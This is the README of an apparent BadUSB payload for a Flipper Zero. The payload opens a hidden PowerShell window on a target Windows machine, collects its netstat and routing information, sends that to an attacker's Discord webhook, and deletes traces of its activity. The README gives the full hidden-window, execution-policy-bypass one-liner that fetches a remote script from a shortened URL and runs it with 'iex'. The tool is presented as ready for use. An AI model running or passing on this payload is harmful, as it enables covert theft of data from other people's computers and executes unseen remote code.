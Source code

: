 # Windows netstat - BADUSB ✅

A script used to stole target netstat status.


**Category**: Net, Exfiltration

[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2Faleff-github%2Fmy-flipper-shits&count_bg=%233C3C3C&title_bg=%233C3C3C&icon=linux.svg&icon_color=%23FFFFFF&title=views&edge_flat=false)](https://github.com/aleff-github/my-flipper-shits)

## Disclaimer

<div align=center>

<img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/gif/flipper_zero%20(15).gif?raw=true" width="209" /><br><img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/DISCLAIMER.png?raw=true" width="600" />

</div>

## Description

This script will stole target netstat status.

Opens PowerShell hidden, grabs netstat status, saves as a cleartext in a variable and exfiltrates info via Discord Webhook.

Then it cleans up traces of what you have done after.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Invoke the indicated commands 
* Invoke-WebRequest will be entered in the Run Box to send the content

### Settings
Put 1 on the function that you want to active, else 0.
Functions available:
- default (*or simple 'netstat' command*)
- routing_table **$r**
- listening_canonical **$lc**
- listening_numerical **$ln**
- all_canonical **$ac**
- all_numerical **$an**
- offload **ot**
- proto **$p "\<protocol>"**
    - *In this option you must put the protocol that you want to monitor, for example $proto="TCP" if you want to monitor TCP, else leave blank, so $proto="".*

```powershell
powershell -w h -ep bypass $discord='';$d='1';$r='1';$lc='1';$ln='1';$ac='1';$an='1';$o='1';$p='TCP';irm bit.ly/WindowsNetstatScript1 | iex
```

You must put your Discord webhook into the variable $discord='\<your-webhook-here>'
